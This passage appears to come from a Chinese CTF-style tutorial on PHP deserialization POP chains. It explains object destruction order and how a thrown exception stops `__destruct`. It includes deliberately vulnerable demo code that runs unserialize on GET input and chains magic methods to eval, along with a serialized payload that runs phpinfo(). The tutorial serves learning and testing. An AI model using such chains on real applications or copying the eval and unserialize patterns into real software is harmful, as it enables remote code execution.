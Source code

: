 ————很好理解：无变量指向的new的对象创建后即回收，有指向的按创建时间倒序回收（先创建的最后回收

问题的关键在于可能来搅局的`throw new Exception();`，比如

```php
unserialize($_GET['url']);
throw new Exception("xxx");
```

在这种情况下程序异常报错退出，我们pop链中重要的`__destruct`不会执行（它在对象正常销毁时被执行），比如一个很简单的pop链

```php
<?php
highlight_file(__FILE__);
error_reporting(0);

class errorr0{
    public $num;
    public function __destruct(){
        echo "hello __destruct";
        echo $this->num;
    }
}
class errorr1{
    public $err;
    public function __toString()
    {
        echo "hello __toString";
        $this->err->flag();
    }
}

class errorr2{
    public $err;
    public function flag()
    {
        echo "hello __flag()";
        eval($this->err);
    }
}

$e1 = new errorr0();
$e2 = new errorr1();
$e3 = new errorr2();

$e3->err = "phpinfo();";
$e2->err = $e3;
$e1->num = $e2;

$result = serialize($e1);
unserialize($result);
// O:7:"errorr0":1:{s:3:"num";O:7:"errorr1":1:{s:3:"err";O:7:"errorr2":1:{s:3:"err";s:10:"phpinfo();";}}}
```

